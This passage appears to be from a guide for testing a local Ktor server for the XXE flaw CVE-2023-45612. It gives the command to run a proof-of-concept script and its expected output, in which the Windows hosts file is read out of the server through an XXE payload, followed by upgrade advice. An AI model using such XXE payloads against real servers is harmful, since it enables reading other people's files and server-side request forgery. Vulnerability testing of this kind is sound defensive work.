
## Step 3: Test for Vulnerability

### 3.1 Download the Simple POC Script

Save the `simple_xxe_poc.py` script to your project directory.

### 3.2 Run the POC Script

```bash
python simple_xxe_poc.py http://localhost:8080
```

### 3.3 Expected Output (Vulnerable System)

```
============================================================
CVE-2023-45612 XXE Vulnerability Test
============================================================
Target: http://localhost:8080
File to read: C:\Windows\System32\drivers\etc\hosts

✓ Server is accessible (Status: 200)
Sending XXE payload to /xml endpoint...

Response Status: 200
Response Body:
----------------------------------------
Received user: # Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost with email: test@example.com
----------------------------------------

🚨 VULNERABILITY CONFIRMED!
✓ XXE attack successful - file contents leaked
✓ CVE-2023-45612 vulnerability present

IMPACT:
- Sensitive files can be read from the server
- Server-side request forgery (SSRF) possible
- Potential for further exploitation

RECOMMENDATION:
- Update Ktor to version 2.3.5 or later
- Update xmlutil to version 0.86.2 or later
- Review XML processing security configuration
```